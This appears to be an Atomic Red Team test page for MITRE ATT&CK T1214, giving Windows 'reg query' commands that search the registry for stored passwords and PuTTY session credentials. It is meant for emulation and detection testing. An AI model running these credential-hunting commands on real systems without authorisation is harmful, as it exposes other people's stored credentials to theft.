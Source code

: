 # T1214 - Credentials in Registry

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1214)

<blockquote>The Windows Registry stores configuration information that can be used by the system or other programs. Adversaries may query the Registry looking for credentials and passwords that have been stored for use by other programs or services. Sometimes these credentials are used for automatic logons.

Example commands to find Registry keys related to password information: (Citation: Pentestlab Stored Credentials)

* Local Machine Hive: <code>reg query HKLM /f password /t REG_SZ /s</code>
* Current User Hive: <code>reg query HKCU /f password /t REG_SZ /s</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Enumeration for Credentials in Registry](#atomic-test-1---enumeration-for-credentials-in-registry)

- [Atomic Test #2 - Enumeration for PuTTY Credentials in Registry](#atomic-test-2---enumeration-for-putty-credentials-in-registry)

<br/>

## Atomic Test #1 - Enumeration for Credentials in Registry

Queries to enumerate for credentials in the Registry.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

<br/>
<br/>

## Atomic Test #2 - Enumeration for PuTTY Credentials in Registry

Queries to enumerate for PuTTY credentials in the Registry.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!

```cmd
reg query HKCU\Software\SimonTatham\PuTTY\Sessions /t REG_SZ /s
```

<br/>
